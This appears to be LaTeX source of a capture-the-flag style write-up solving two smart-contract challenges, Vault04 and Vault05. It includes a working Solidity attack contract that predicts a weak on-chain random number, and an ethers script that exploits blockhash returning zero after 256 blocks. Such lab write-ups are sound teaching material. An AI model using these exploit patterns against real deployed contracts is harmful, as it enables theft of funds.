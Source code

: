 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=Solidity]
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.28;
    
    interface IVault04 {
        function breachVault(uint256 _password) external returns (bool);
    }
    
    contract Vault04Attack {
        IVault04 public vault;
    
        constructor(address _vaultAddress) {
            vault = IVault04(_vaultAddress);
        }
    
        // Function to perform the attack
        function attack() external returns (bool) {
            // Compute the guess using on-chain values in the same transaction.
            uint256 guess = uint256(
                keccak256(
                    abi.encodePacked(blockhash(block.number - 1), block.timestamp)
                )
            ) % 100;
            
            return vault.breachVault(guess);
        }
    }
\end{lstlisting}

\noindent
Since the guess is derived from predictable on-chain data and is used within the same transaction, the attack works by ensuring the \texttt{blockhash} and \texttt{timestamp} remain valid when the vault processes the request.

\subsection*{Vault05: Fortune Teller}

To breach \texttt{Vault05}, you need to use the \texttt{blockhash} of the block when the guess was locked in, but only after the next block has been mined. First, you lock the guess using \texttt{lockInGuess}. Then, you must wait for the next block and calculate the random number using \texttt{blockhash(lockInBlockNumber)}. The issue is that at the moment of locking in the password, we do not know the blockhash yet. We can only access the blockhash of the previous blocks. However, since the \texttt{blockhash} function only returns the blockhash for the last 256 blocks, otherwise it returns zero (see \href{https://docs.soliditylang.org/en/latest/units-and-global-variables.html}{Solidity documentation}). Therefore, we simply lock in a 0 and mine 256 blocks before calling \texttt{breachVault} function.

\begin{verbatim}
// Lock the zero
await vault.connect(player).lockInGuess(0);

// Mine 256 blocks
for (let i = 0; i < 256; i++) {
    await ethers.provider.send("evm_mine", []);
}

// Call breachVault()
await vault.connect(player).breachVault();
\end{verbatim}
\end{document}
